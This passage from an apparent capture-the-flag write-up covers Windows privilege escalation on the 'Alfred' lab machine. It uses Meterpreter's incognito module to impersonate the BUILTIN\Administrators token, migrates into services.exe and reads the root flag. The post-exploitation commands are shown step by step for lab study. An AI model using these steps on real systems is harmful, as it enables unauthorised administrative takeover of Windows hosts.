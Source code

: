 Let's check the privileges for the user that we are currenlty logged in.

```shell
whoami /priv
```
We can see that the SeImpersonatePrivilege is enabled. Let's try token impersonation.

<img src="{{'/assets/img/images/05.Alfred/19.png' | prepend: site.baseurl }}" height="700">

Load the incognito module and list the available tokens.
```shell
load incognito
```
```shell
list_tokens -g
```
<img src="{{'/assets/img/images/05.Alfred/20.png' | prepend: site.baseurl }}" height="700">

<img src="{{'/assets/img/images/05.Alfred/21.png' | prepend: site.baseurl }}" height="400">

We can see that there is BUILTIN\Administrators token available. Let's impersonate that token.
```shell
impersonate_token "BUILTIN\Administrators"
```shell
Now we will check if we got the privileged access.
```shell
getuid
```
<img src="{{'/assets/img/images/05.Alfred/22.png' | prepend: site.baseurl }}" height="150">

We can see that we have higher privileged token but we will not get permissions of privileged user unless we migrate our process to another process with correct privileges . We will migrate our process from shell.exe to services.exe so that we can get the permissions of a privileged user.

We will check the processes and then migrate from shell.exe to services.exe.
```shell
ps
```
<img src="{{'/assets/img/images/05.Alfred/23.png' | prepend: site.baseurl }}">

Use the PID of the services.exe to migrate.
```shell
migrate 668
```
<img src="{{'/assets/img/images/05.Alfred/24.png' | prepend: site.baseurl }}" height="130">

Now have privileged access and we can read the root flag located at C:\Windows\System32\config.

<img src="{{'/assets/img/images/05.Alfred/25.png' | prepend: site.baseurl }}" height="80">
